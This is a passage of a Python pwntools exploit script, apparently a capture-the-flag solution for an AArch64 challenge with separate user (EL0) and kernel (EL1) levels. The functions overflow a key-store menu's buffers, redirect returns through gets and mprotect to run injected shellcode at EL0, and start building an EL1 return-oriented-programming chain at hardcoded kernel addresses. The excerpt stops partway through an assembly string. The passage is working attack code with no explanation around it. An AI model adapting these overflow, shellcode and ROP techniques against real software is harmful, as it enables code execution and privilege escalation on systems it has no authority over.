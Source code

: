 ```python
    return shellcode


def load_key(idx: int):
    p.sendlineafter(b"cmd> ", b"0")
    p.sendlineafter(b"index: ", str(idx).encode())


def save_key(idx: int, key: bytes):
    p.sendlineafter(b"cmd> ", b"1")
    p.sendlineafter(b"index: ", str(idx).encode())
    p.sendlineafter(b"key: ", key)


def el0_arbitrary_code_execute(assembly: str) -> None:
    pl = b"a" * 0x100
    pl += p64(el0_elf.symbols["gets"])
    pl += p64(el0_elf.symbols["gets"])
    save_key(1, pl)
    pl = b"a" * 0x120
    pl += make_shellcode(assembly)
    assert len(pl) <= 0x1000
    p.sendline(pl)

    pl = b"a" * (1 + 4)
    pl += b"\x00" * (0x100 - len(pl))
    pl += p64(el0_elf.symbols["main"] + 0x44)
    pl += p64(el0_elf.symbols["mprotect"])
    save_key(0x1000, pl)

    load_key(1)

    pl = b"a" * 0x100
    pl += p64(EL0_RET)
    pl += p64(el0_elf.symbols["gets"])
    pl += p64(DUMMY_VALUE)
    pl += p64(EL0_SFP_IN_RUN - 0x30)
    save_key(1, pl)
    pl = p64(EL0_STACK_LOW + 0x100)
    pl += p64(EL0_BUF + 0x120)
    p.sendline(pl)


def el1_return_oriented_programming(
    rop_chain: list[int],
    el0_head_assembly: str = "",
    head_input: bytes = b"",
    el0_tail_assembly: str = "",
    tail_input: bytes = b"",
) -> None:
    ROP_CHAIN_ADDR = 0xFFFFFFFFC0019C00
    EL1_SYSCALL_HANDLER_RET_ADDR = 0xFFFFFFFFC0019BB8

    rop_chain = rop_chain[:2] + [0] * 2 + rop_chain[2:]
    rop_chain = b"".join([p64(gadget) for gadget in rop_chain])
    assert b"\n" not in rop_chain and len(rop_chain) <= 0x420

    el0_arbitrary_code_execute(
        el0_head_assembly
        + f"""  
        mov x22, xzr;\n
        ldr x23, ={len(rop_chain)};\n
        ldr x24, ={ROP_CHAIN_ADDR};\n
```